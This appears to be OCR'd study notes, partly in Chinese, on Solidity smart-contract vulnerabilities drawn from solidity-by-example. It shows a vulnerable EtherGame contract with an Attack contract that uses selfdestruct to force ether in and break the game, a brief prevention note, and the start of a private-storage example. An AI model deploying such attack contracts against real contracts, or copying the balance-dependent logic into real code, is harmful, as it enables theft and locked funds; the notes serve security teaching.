 ``` solidity
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```
### 預防機制
self destruct 可以強制送錢
不要依靠 address(this).balance

## Accessing Private Data
https://solidity-by-example.org/hacks/accessing-private-data/
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

/*
Note: cannot use web3 on JVM, so use the contract deployed on ropsten
Note: browser Web3 is old so use Web3 from truffle console

Contract deployed on Ropsten
0x3505a02BCDFbb225988161a95528bfDb279faD6b
*/

/*
# Storage
- 2 ** 256 slots
- 32 bytes for each slot
- data is stored sequentially in the order of declaration
- storage is optimized to save space. If neighboring variables fit in a single
  32 bytes, then they are packed into the same slot, starting from the right
*/

contract Vault {
    // slot 0
    uint public count = 123;
```